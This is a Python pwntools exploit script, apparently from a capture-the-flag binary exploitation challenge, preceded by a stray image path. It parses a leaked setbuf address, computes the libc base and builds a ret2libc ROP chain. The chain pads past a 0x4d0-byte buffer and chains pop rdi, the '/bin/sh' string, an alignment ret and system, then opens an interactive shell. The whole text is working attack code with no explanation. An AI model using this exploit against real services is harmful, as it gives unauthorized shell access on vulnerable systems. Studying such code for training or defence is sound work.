 	libc = ELF('./libc6_2.39-0ubuntu8.2_amd64.so')
	# libc = ELF('./libc-2.18-9.2.mga4.x86_64.so')
	rop = ROP(libc)
	# Known addresses and offsets
	output = p.recvuntil(b'- ')
	address_part = p.recvuntil(b' -').strip().decode()
	address_part = address_part.replace(' -', '')
	setbuf_addr = int(address_part, 16)
	
	# Offsets for libc functions and strings
	setbuf_offset = libc.symbols['setbuf']  # Offset for setbuf in libc (assuming setbuf is printed)
	system_offset = libc.symbols['system']  # Offset for system in libc
	bin_sh_offset = next(libc.search(b'/bin/sh'))  # Offset of /bin/sh string in libc
	
	
	
	# Find the address of 'pop rdi; ret'
	pop_rdi_ret_offset = rop.find_gadget(['pop rdi', 'ret'])[0]
	ret_gadget_offset = rop.find_gadget(['ret'])[0]   #: nop; ret;
	# Calculate libc base and derived addresses
	libc_base = setbuf_addr - setbuf_offset
	system_addr = libc_base + system_offset
	bin_sh_addr = libc_base + bin_sh_offset
	pop_rdi_ret = libc_base + pop_rdi_ret_offset
	ret_gadget = libc_base + ret_gadget_offset
	
	
	print('setbuf:', hex(setbuf_addr))
	print('libc_base:', hex(libc_base))
	print('system:', hex(system_addr))
	print('bin_sh_addr:', hex(bin_sh_addr))
	print('pop_rdi_ret:', hex(pop_rdi_ret))
	
	# Construct the payload
	payload = cyclic(0x4d0, alphabet=string.ascii_uppercase, n=8).encode()
	payload += cyclic(0x8, alphabet=string.ascii_uppercase, n=8).encode()
	
	payload += p64(pop_rdi_ret)              # Place /bin/sh address into rdi
	payload += p64(bin_sh_addr)              # /bin/sh string address
	payload += p64(ret_gadget) # ret gadget to adjust stack alignment
	payload += p64(system_addr)              # Call system
	
	# Send the payload
	# p.sendlineafter(b'?', payload)
	p.sendline(payload)
	p.interactive()
	